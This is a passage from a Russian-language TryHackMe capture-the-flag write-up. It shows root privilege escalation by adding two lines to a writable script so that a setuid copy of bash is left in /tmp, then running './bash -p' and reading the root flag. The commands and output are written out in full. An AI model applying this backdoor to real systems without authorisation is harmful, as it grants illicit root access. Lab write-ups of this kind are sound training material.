 ```commandline
ls -la /opt/run_container.sh
nano /opt/run_container.sh
```
а для того что бы мы получили нашу оболочку с супер пользователя, скопируем этот бинарный исполняемый файл, путем 
добавления всего двух строчек в начале этого скрипта /opt/run_container.sh
```commandline
cp /usr/bin/bash  /tmp/bash
chmod +s /tmp/bash
```
а теперь запустим исполняемый файл:
```commandline
/usr/sbin/run_container
```
разумеется этот файл, был изначально предназначен для запуска контейнера и полностью свою работу не выполнит, но нам 
и не нужно полностью, т.к. наши две строчки тихо выполняться в начале скрипта и скопируют наш баш бинарный файл во 
временную директорию, перейдем и запустим его:
```commandline
$ cd /tmp
$ ./bash -p
```
убеждаемся, что мы теперь можем выполнять команды от имени супер пользователя:
```commandline
bash-5.0# id
uid=1000(think) gid=1000(think) euid=0(root) egid=0(root) groups=0(root),1000(think)
bash-5.0# whoami
root
```

### 7. получим искомый флаг супер пользователя:
```commandline
bash-5.0# ls /root
root.txt  spip
bash-5.0# cat /root/root.txt
3a4225cc9e85709adda6ef55d6a4f2ca  
```





[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)